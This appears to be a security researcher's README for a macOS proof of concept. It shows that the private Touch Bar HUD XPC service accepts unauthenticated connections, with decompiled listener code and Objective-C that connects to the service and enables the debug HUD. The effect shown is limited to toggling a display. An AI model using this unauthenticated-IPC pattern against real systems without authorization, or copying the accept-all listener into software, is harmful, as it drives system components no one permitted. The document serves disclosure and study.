

Touch Bar Debug HUD via XPC
Lightweight macOS client that flips on the Touch Bar debug HUD by talking to the system XPC service com.apple.accessibility.dfrhud. Any client that knows the protocol can attach and drive the HUD — no entitlements, no authentication.

DFRHUD active — HUD connection established via XPC
IDA analysis
Decompiled -[DFRHUDAppDelegate listener:shouldAcceptNewConnection:] shows the service accepts any incoming XPC connection unconditionally:
bool __cdecl -[DFRHUDAppDelegate listener:shouldAcceptNewConnection:](
id self, SEL _, id listener, id conn)
{
id c = objc_retain(conn);
NSXPCInterface *iface = [NSXPCInterface
interfaceWithProtocol:@protocol(UADFRHUDXPCInterface)];
[c setExportedInterface:iface];
[c setExportedObject:self];
[c resume];
objc_release(c);
return 1; // always accepts
}The exported protocol, lifted from the binary:
@protocol UADFRHUDXPCInterface
- (void)startDFRInteractiveHUD;
- (void)stopDFRInteractiveHUD;
- (void)toggleDFRInteractiveHUD;
- (void)enableDFRInteractiveHUD;
- (void)disableDFRInteractiveHUD;
- (void)startDFRZoomableHUD;
- (void)stopDFRZoomableHUD;
- (void)toggleDFRZoomableHUD;
- (void)enableDFRZoomableHUD;
- (void)disableDFRZoomableHUD;
@end• • •
Proof of concept
On launch, the PoC app immediately dials the mach service and calls enableDFRInteractiveHUD + startDFRInteractiveHUD. If the XPC link drops, it retries after 1 second. No UI controls — fire-and-forget.
NSXPCConnection *connection = [[NSXPCConnection alloc]
initWithMachServiceName:@"com.apple.accessibility.dfrhud"
options:0];
connection.remoteObjectInterface = [NSXPCInterface
interfaceWithProtocol:@protocol(UADFRHUDXPCInterface)];
__weak typeof(self) weakSelf = self;
connection.invalidationHandler = ^{
weakSelf.hudConnection = nil;
dispatch_after(
dispatch_time(DISPATCH_TIME_NOW, (int64_t)(1 * NSEC_PER_SEC)),
dispatch_get_main_queue(), ^{
[weakSelf startHudIfNeeded];
});
};
[connection resume];
id<UADFRHUDXPCInterface> remote =
[connection remoteObjectProxyWithErrorHandler:^(NSError *error) {
NSLog(@"remoteObjectProxy error: %@", error);
}];
[remote enableDFRInteractiveHUD];
[remote startDFRInteractiveHUD];Reproduction
- Open
poc.xcodeprojin Xcode. - Build & run the
pocscheme (macOS app). The HUD pops immediately.
Tearing it down
- Quit the
pocapp first (it auto-reconnects). - Then:
killall DFRHUD(orkillall -9 DFRHUDif it lingers).
• • •
Notes
- DFRHUD is a private component; behavior may change across macOS versions.
- Calls are unauthenticated in this build; future OS updates could gate the XPC interface.
Work by andrd3v.